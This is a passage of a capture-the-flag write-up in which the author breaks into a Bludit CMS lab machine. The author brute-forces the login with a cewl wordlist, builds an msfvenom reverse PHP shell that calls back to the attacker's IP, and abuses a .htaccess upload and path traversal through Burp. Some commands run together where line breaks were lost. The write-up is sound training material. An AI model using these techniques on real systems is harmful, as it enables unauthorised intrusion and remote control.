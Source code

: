 ```
python3 exploit.py -l  -u fergus -p /usr/share/wordlists/rockyou.txt
```

But again, no result.\
Now, I thought of creating a custom wordlist using **cewl** (you can install it using apt install):

```
cewl -w output.txt http://10.10.10.191
```

Then I ran the exploit again, but with this wordlist:

```
python3 exploit.py -l  -u fergus -p ./output.txt
```

And I got the password as: **RolandDeschain** !!\
I logged in to the portal:

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*fc2sP3SuuXEAuZXHydJJgA.png" alt="" height="327" width="700"><figcaption></figcaption></figure>

I remembered I had found an authenticated exploit as well. I searched again and found [this exploit](https://www.exploit-db.com/exploits/48701). More about the vulnerability can be found here:

[Bludit v3.9.2 Code Execution Vulnerability in "Upload function" · Issue #1081 · bludit/bluditA Code Execution Vulnerability in Bludit v3.9.2 Hi, For CVE ID,so I open a new issue,sorry about that.And I think you…github.com](https://github.com/bludit/bludit/issues/1081?source=post\_page-----6da4dc8d35c4--------------------------------)[NVDModified This vulnerability has been modified since it was last analyzed by the NVD. It is awaiting reanalysis which…nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-16113?source=post\_page-----6da4dc8d35c4--------------------------------#vulnCurrentDescriptionTitle)

I created a PHP payload:

```
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.pngecho -e "<?php $(cat evil.png)" > evil.png
```

and a .htaccess file:

```
echo "RewriteEngine off" > .htaccessecho "AddType application/x-httpd-php .png" >> .htaccess
```

Next, I went to the New-Content page in the portal and clicked on Image, then intercepted the upload request of **evil.png** using Burp.\
I changed the destination of the uploaded image to **../../tmp/temp** by changing the **uuid**:

<figure><img src="https://miro.medium.com/v2/resize:fit:486/1*516KohQyR7x3-0t3giQlJg.png" alt="" height="163" width="486"><figcaption></figcaption></figure>

Then forwarded the request. Next, I intercepted the upload request of **.htaccess** using Burp. Uploading it gave me an error, that this file type is not supported. I changed the extension to .png and then intercepted the request in Burp.\
Here, I changed the file name to **.htaccess** again:

<figure><img src="https://miro.medium.com/v2/resize:fit:517/1*sdICdm3bw6np6GFldaAWew.png" alt="" height="138" width="517"><figcaption></figcaption></figure>
